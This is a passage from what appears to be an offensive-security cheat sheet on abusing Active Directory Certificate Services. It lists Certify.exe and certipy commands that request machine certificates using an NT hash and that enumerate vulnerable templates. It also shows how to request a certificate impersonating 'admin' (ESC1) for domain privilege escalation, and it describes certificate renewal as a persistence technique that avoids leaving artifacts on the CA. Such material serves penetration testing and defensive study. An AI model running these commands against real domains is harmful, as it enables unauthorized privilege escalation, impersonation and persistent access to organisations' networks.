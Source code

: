 ```powershell
Certify.exe request /ca:CA.contoso.local\CA /template:"Authentication Template" /machine
```

#### Linux

If the machine's hash is known:

```bash
certipy req -u 'machine@contoso.local' -hashes ':<hash_NT>' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'Authentication Template'
```

### Account persistence via Certificate Renewal - PERSIST3

The **renewal period** of a template indicates the timeframe before the certificate expiration where the user can manually renew his certificate.

_The attacker, however, can renew the certificate before expiration. This can function as an extended persistence approach that prevents additional ticket enrollments from being requested, which can leave artifacts on the CA server itself._

## Domain Privesc

### Template Attacks - ESC1, 2, 3, 9 & 10

[![image-1640805125672.png](https://hideandsec.sh/uploads/images/gallery/2021-12/scaled-1680-/mlK5E1SH1D1CzLOG-image-1640805125672.png)](https://hideandsec.sh/uploads/images/gallery/2021-12/mlK5E1SH1D1CzLOG-image-1640805125672.png)

* **ESC1** : SAN authorized & Low Privileged Users can enroll & Authentication EKU
* **ESC2** : Low Privileged Users can enroll & Any or No EKU
* **ESC3** : Certificate Request Agent EKU & Enrollment agent restrictions are not implemented on the CA
  * A template allows a low-privileged user to use an enrollment agent certificate.
  * Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

#### Template misconfiguration - ESC1, 2 & 3

##### Windows

###### ESC1 & 2
```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser

# Request certificate with SAN
Certify.exe request /ca:CA.contoso.local\CA /template:"Vulnerable template" /altname:"admin"

# Convert PEM to PFX (from Linux)
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin.pfx
```
